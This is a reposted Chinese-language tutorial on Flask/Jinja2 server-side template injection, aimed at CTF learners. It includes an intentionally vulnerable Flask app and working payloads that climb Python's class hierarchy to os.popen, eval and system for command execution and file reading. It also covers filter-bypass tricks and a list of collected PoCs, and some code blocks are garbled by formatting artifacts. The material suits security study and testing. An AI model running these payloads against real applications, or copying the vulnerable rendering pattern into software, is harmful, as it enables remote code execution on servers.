




【知识点】flask SSTI模板注入漏洞
转载自：https://xz.aliyun.com/t/3679
本文因为 hexo bug 做了不便于阅读的调整，建议阅读原文。
0. 前言
在学习ssti模版注入的时候，发现国内文章对于都是基于python基础之上的，对于基础代码讲的较少，而对于一些从事安全的新手师傅们，可能python只停留在写脚本上，所以上手的时候可能有点难度，毕竟不是搞python flask开发。就本人学习ssti而言，入手有点难度，所以特写此文，对于一些不需要深究python但是需要学习ssti的师傅，本文可能让你对flask的ssti有所了解。
1. ssti 漏洞成因
ssti服务端模板注入，ssti主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。本文着重对flask模板注入进行浅析。
2. 模板引擎
首先我们先讲解下什么是模板引擎，为什么需要模板，模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。但是往往新的开发都会导致一些安全问题，虽然模板引擎会提供沙箱机制，但同样存在沙箱逃逸技术来绕过。
模板只是一种提供给程序来解析的一种语法，换句话说，模板是用于从数据（变量）到实际的视觉表现（HTML代码）这项工作的一种实现手段，而这种手段不论在前端还是后端都有应用。
通俗点理解：拿到数据，塞到模板里，然后让渲染引擎将赛进去的东西生成 html 的文本，返回给浏览器，这样做的好处展示数据快，大大提升效率。
后端渲染：浏览器会直接接收到经过服务器计算之后的呈现给用户的最终的HTML字符串，计算就是服务器后端经过解析服务器端的模板来完成的，后端渲染的好处是对前端浏览器的压力较小，主要任务在服务器端就已经完成。
前端渲染：前端渲染相反，是浏览器从服务器得到信息，可能是json等数据包封装的数据，也可能是html代码，他都是由浏览器前端来解析渲染成html的人们可视化的代码而呈现在用户面前，好处是对于服务器后端压力较小，主要渲染在用户的客户端完成。
让我们用例子来简析模板渲染。
1
2
3<html>
<div>{$what}</div>
</html>
我们想要呈现在每个用户面前自己的名字。但是{$what}我们不知道用户名字是什么，用一些url或者cookie包含的信息，渲染到what变量里，呈现给用户
1
2
3<html>
<div>张三</div>
</html>
当然这只是最简单的示例，一般来说，至少会提供分支，迭代。还有一些内置函数。
3. 什么是服务端模板注入
通过模板，我们可以通过输入转换成特定的HTML文件，比如一些博客页面，登陆的时候可能会返回 hi,张三。这个时候张三可能就是通过你的身份信息而渲染成html返回到页面。通过Twig php模板引擎来做示例。
1 | $output = $twig->render( $_GET[‘custom_email’] , array(“first_name” => $user.first_name) ); |
可能你发现了它存在XSS漏洞，直接输入XSS代码便会弹窗，这没错，但是仔细观察，其他由于代码不规范他还存在着更为严重的ssti漏洞，假设我们的
url:xx.xx.xx/?custom_email=49，将会返回49
我们继续custom_email={{self} },返回 f你将会发现如下：1
@app.route('/')
1
2
3@app.route('/')
def test()"
return 1231
2
3@app.route('/test')
def test()"
return 1231
2
3@app.route("/hello/<username>")
def hello_user(username):
return "user:%s"%username1
2
3
4
5
6
7
8int 接受整数
float 同 int ，但是接受浮点数
path 和默认的相似，但也接受斜线
@app.route('/post/<int:post_id>')
def show_post(post_id):
# show the post with the given id, the id is an integer
return 'Post %d' % post_id1
2
3if __name__ == '__main__':
app.debug = True
app.run()1
app.debug = True
1
app.run(host='0.0.0.0')
1
2
3
4
5
6from flask import render_template
@app.route('/hello/')
@app.route('/hello/<name>')
def hello(name=None):
return render_template('hello.html', name=name)//我们hello.html模板未创建所以这段代码暂时供观赏，不妨往下继续看1
2
3
4
5
6
7
8<html>
<head>
<title>{{title}} - 小猪佩奇</title>
</head>
<body>
<h1>Hello, {{user.name}}!</h1>
</body>
</html>1
2
3
4
5@app.route('/')
@app.route('/index')#我们访问/或者/index都会跳转
def index():
user = {'name': '小猪佩奇'}#传入一个字典数组
return render_template("index.html",title='Home',user=user)1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20from flask import Flask
from flask import render_template
from flask import request
from flask import render_template_string
app = Flask(__name__)
@app.route('/test',methods=['GET', 'POST'])
def test():
template = '''
<div class="center-content error">
<h1>Oops! That page doesn't exist.</h1>
<h3>%s</h3>
</div>
''' %(request.url)
return render_template_string(template)
if __name__ == '__main__':
app.debug = True
app.run()1
2
3
4
5
6
7
8<html>
<head>
<title>{{title}} - 小猪佩奇</title>
</head>
<body>
<h1>Hello, {{user.name}}!</h1>
</body>
</html>1
2
3
4@app.route('/')
@app.route('/index')#我们访问/或者/index都会跳转
def index():
return render_template("index.html",title='Home',user=request.args.get("key"))

即使username可控了，但是代码已经并不生效，并不是你错了，是代码对了。这里问题出在，良好的代码规范，使得模板其实已经固定了，已经被render_template渲染了。你的模板渲染其实已经不可控了。而漏洞代码的问题出在这里
1 | def test(): |
注意%（request.url），程序员因为省事并不会专门写一个html文件，而是直接当字符串来渲染。并且request.url是可控的，这也正是flask在CTF中经常使用的手段，报错404，返回当前错误url，通常CTF的flask如果是ssti，那么八九不离十就是基于这段代码，多的就是一些过滤和一些奇奇怪怪的方法函数。现在你已经明白了flask的ssti成因以及代码了。接下来我们进入实战。
5.2 本地环境进一步分析
上面我们已经放出了漏洞代码无过滤版本。现在我们深究如何利用ssti攻击。
现在我们已经知道了在flask中 {{}}里面的代码将会执行。那么如何利用对于一个python小白可能还是一头雾水，如果之前没有深入学习过python，那么接下来可以让你对于poc稍微有点了解。进入正题。
在python中，object类是Python中所有类的基类，如果定义一个类时没有指定继承哪个类，则默认继承object类。我们从这段话出发，假定你已经知道ssti漏洞了，但是完全没学过ssti代码怎么写，接下来你可能会学到一点废话。
我们在pycharm中运行代码
1 | print("".__class__) |
返回了<class ‘str’>，对于一个空字符串他已经打印了str类型，在python中，每个类都有一个bases属性，列出其基类。现在我们写代码。
1 | print("".__class__.__bases__) |
打印返回(<class ‘object’>,)，我们已经找到了他的基类object，而我们想要寻找object类的不仅仅只有bases，同样可以使用mro，mro给出了method resolution order，即解析方法调用的顺序。我们实例打印一下mro。
1 | print("".__class__.__mro__) |
可以看到返回了(<class ‘str’>, <class ‘object’>)，同样可以找到object类，正是由于这些但不仅限于这些方法，我们才有了各种沙箱逃逸的姿势。正如上面的解释，mro返回了解析方法调用的顺序，将会打印两个。在flask ssti中poc中很大一部分是从object类中寻找我们可利用的类的方法。我们这里只举例最简单的。接下来我们增加代码。接下来我们使用subclasses,subclasses() 这个方法，这个方法返回的是这个类的子类的集合，也就是object类的子类的集合。
1 | print("".__class__.__bases__[0].__subclasses__()) |
python 3.6 版本下的object类下的方法集合。这里要记住一点2.7和3.6版本返回的子类不是一样的，但是2.7有的3.6大部分都有。需要自己寻找合适的标号来调用接下来我将进一步解释。打印如下：
1 | [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'moduledef'>, <class 'module'>, <class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'nt.ScandirIterator'>, <class 'nt.DirEntry'>, <class 'PyHKEY'>, <class 'zipimport.zipimporter'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'abc.ABC'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_itemiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class 'MultibyteCodec'>, <class 'MultibyteIncrementalEncoder'>, <class 'MultibyteIncrementalDecoder'>, <class 'MultibyteStreamReader'>, <class 'MultibyteStreamWriter'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'operator.itemgetter'>, <class 'operator.attrgetter'>, <class 'operator.methodcaller'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class 'collections._Link'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'weakref.finalize._Info'>, <class 'weakref.finalize'>, <class 'functools.partialmethod'>, <class 'enum.auto'>, <enum 'Enum'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_sre.SRE_Pattern'>, <class '_sre.SRE_Match'>, <class '_sre.SRE_Scanner'>, <class 'sre_parse.Pattern'>, <class 'sre_parse.SubPattern'>, <class 'sre_parse.Tokenizer'>, <class 're.Scanner'>, <class 'tokenize.Untokenizer'>, <class 'traceback.FrameSummary'>, <class 'traceback.TracebackException'>, <class 'threading._RLock'>, <class 'threading.Condition'>, <class 'threading.Semaphore'>, <class 'threading.Event'>, <class 'threading.Barrier'>, <class 'threading.Thread'>, <class '_winapi.Overlapped'>, <class 'subprocess.STARTUPINFO'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>] |
接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。这里开始我们不再用pycharm打印了，直接利用上面我们已经搭建好的漏洞环境来进行测试。通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class ‘os._wrap_close’>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[118]。
1 | http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118]} } |

这个时候我们便可以利用.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。
1 | http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__} } |
此时我们可以在网页上看到各种各样的参数方法函数。我们找其中一个可利用的function popen，在python2中可找file读取文件，很多可利用方法，详情可百度了解下。
1 | http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()} } |

此时便可以看到命令已经执行。如果是在linux系统下便可以执行其他命令。此时我们已经成功得到权限。进下来我们将进一步简单讨论如何进行沙箱逃逸。
5.3 ctf中的一些绕过tips
没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。
过滤[]等括号
使用gititem绕过。如原poc {{"".class.bases[0]} }绕过后{{"".class.bases.getitem(0)} }过滤了subclasses，拼凑法
原poc{{"".class.bases[0].subclasses()} }绕过 {{"".class.bases[0]'subcla'+'sses'} }过滤class
使用session
poc {{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]} }
多个bases[0]是因为一直在向上找object类。使用mro就会很方便
1 | {{session['__cla'+'ss__'].__mro__[12]} } |
或者
1
request['__cl'+'ass__'].__mro__[12]} }
timeit姿势
可以学习一下 2017 swpu-ctf的一道沙盒python题，
这里不详说了，博大精深，我只意会一二。
1
2
3
4
5import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
import platform
print platform.popen('dir').read()收藏的一些poc
1
2
3
4
5().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /var/www/html").read()' )
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')} }还有就可以参考一下P师傅的 https://p0sec.net/index.php/archives/120/
6. 漏洞挖掘
对于一些师傅可能更偏向于实战，但是不幸的是实战中几乎不会出现ssti模板注入，或者说很少，大多出现在python 的ctf中。但是我们还是理性分析下。
每一个（重）模板引擎都有着自己的语法（点）,Payload 的构造需要针对各类模板引擎制定其不同的扫描规则,就如同 SQL 注入中有着不同的数据库类型一样。更改请求参数使之承载含有模板引擎语法的 Payload,通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析,不同的引擎不同的解析。所以我们在挖掘之前有必要对网站的web框架进行检查，否则很多时候{{} }并没有用，导致错误判断。
接下来附张图，实战中要测试重点是看一些url的可控，比如url输入什么就输出什么。前期收集好网站的开发语言以及框架，防止错误利用{{} }而导致错误判断。如下图较全的反映了ssti的一些模板渲染引擎及利用。
